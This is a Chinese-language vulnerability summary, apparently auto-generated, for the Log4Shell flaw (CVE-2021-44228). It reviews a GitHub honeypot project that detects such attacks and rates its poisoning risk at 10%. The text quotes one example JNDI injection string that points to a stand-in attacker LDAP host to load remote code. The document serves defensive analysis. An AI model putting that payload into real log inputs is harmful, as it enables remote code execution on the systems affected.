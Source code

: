 ## CVE-2021-44228-Log4Shell-Honeypot

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行和数据泄露

**影响版本:** 2.0-beta9 to 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 目标系统使用存在漏洞的Log4j2版本，且允许log message lookup substitution

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 是一种严重的远程代码执行 (RCE) 漏洞，存在于 Apache Log4j 2.0-beta9 到 2.15.0 版本（不包括安全版本 2.12.2、2.12.3 和 2.3.1）中。该漏洞源于 Log4j2 JNDI 功能在配置、日志消息和参数中，未能充分保护免受攻击者控制的 LDAP 和其他 JNDI 相关端点的攻击。

**利用方式：**

攻击者可以控制日志消息或日志消息参数，从而执行从 LDAP 服务器加载的任意代码。这是通过在日志消息中插入包含 JNDI 查找的恶意字符串来实现的，例如 `${jndi:ldap://attacker.com/evil}`。当 Log4j2 处理此日志消息时，它会尝试连接到攻击者控制的 LDAP 服务器，并执行服务器返回的恶意代码。

**有效性：**

根据漏洞库信息、搜索结果以及漏洞利用代码，可以判断该漏洞利用的POC代码有效。网上存在大量的利用该漏洞的POC，并且该漏洞已被广泛利用。

**投毒风险：**

提供的代码是Log4Shell Honeypot，目的是为了检测和防御Log4Shell攻击，而不是利用Log4Shell进行攻击。Dockerfile 构建了一个 Python 应用，用于模拟易受攻击的 Log4j2 环境，通过检测特定模式（例如 `${jndi:`）来识别潜在的攻击。主要目的是捕获攻击尝试的相关信息，例如攻击来源 IP 地址、攻击载荷等。尽管从技术角度讲，可以修改该 Honeypot 以包含恶意代码，但从代码的主要功能来看，其目的在于防御，而不是攻击。虽然整体投毒风险较低，但如果有人修改了 Honeypot 的代码，增加了反向shell或者其他恶意代码，那么投毒风险会增加。因此，给出10%的投毒风险评估。

总而言之，这是一个高危漏洞，攻击者可以利用它来远程执行代码。但是，提供的代码是一个honeypot，旨在检测此类攻击，虽然存在被修改后用作恶意用途的可能，但是可能性相对较低。

**项目地址:** [michaelsanford/Log4Shell-Honeypot](https://github.com/michaelsanford/Log4Shell-Honeypot)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)